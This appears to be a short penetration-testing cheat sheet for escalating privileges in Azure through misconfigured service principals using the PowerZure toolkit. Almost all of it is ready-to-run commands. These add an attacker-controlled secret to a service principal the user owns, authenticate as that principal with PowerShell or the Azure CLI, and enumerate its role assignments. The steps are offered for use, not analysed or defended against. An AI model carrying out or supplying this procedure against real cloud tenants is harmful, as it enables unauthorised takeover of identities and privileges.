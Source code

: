 # Misconfigured Service Principals Privesc

### Tools: Powerzure

## Steps:

#### 1) Import Powerzure module

    Import-Module Powerzure.ps1 

#### 2) Verify whether the current user is assigned as the owner of a service principal

    Get-AzureAppOwner 

#### 3) Add a new secret to APP_NAME to allow us to authenticate with the app

    Add-AzureSPSecret -ApplicationName APP_NAME -Password PASSWORD 

    $Credential = Get-Credential

    Connect-AzAccount -Credential $Credential -Tenant TENANT_ID -ServicePrincipal (Windows Powershell)

## OR

    az login --service-principal --username APP_ID --password PASSWORD --tenant TENANT_ID (Azure CLI)

## NOTE: Don't forget to make a note of the APP_ID to authenticate as the service principal!

#### 4) Verify the role assignment and scope of the service principal

    az role assignment list --assignee APP_ID --include-groups --include-inherited --query '[].{username:principalName, role:roleDefinitionName, usertype:principalType, scope:scope}' 
